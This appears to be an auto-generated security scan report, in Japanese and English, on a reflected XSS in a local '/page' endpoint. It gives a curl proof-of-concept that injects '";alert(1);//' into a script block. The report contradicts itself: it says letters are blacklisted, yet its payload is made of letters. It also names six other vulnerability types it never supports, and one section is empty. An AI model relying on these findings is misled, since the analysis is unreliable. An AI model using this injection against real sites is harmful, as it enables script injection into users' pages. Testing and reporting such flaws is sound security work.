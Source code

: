 # Analysis Report

![高信頼度](https://img.shields.io/badge/信頼度-高-red) **信頼度スコア: 90**

## 脆弱性タイプ

- `XSS`
- `IDOR`
- `SSRF`
- `SQLI`
- `LFI`
- `RCE`
- `AFO`

## PAR Policy Analysis

## 詳細解析

The `/page` endpoint reflects user-supplied `name` directly into a JavaScript `<script>` block without proper escaping. The blacklist only forbids letters, digits and `<`/`>`, but does not block `"`, allowing an attacker to break out of the string literal and inject arbitrary JavaScript code. This leads to a classic reflected XSS in the generated page.

## PoC（概念実証コード）

```text
Use the following POST request to trigger alert XSS:

curl -X POST http://localhost:5000/page \
     -d 'name=";alert(1);//'

This injects `";alert(1);//` into the JS string, resulting in:

<script>
  var name = "";alert(1);//";
  document.write('Hello ' + name);
</script>

which executes `alert(1)`.
```

## 解析ノート

- The blacklist blocks letters, digits and `<` `>` only
- Payload can include double quotes to break out of the JS string
- script_content template uses `"%s"` without escaping
- Context: reflected input inside `<script>` tag
- Confirmed XSS via JS injection


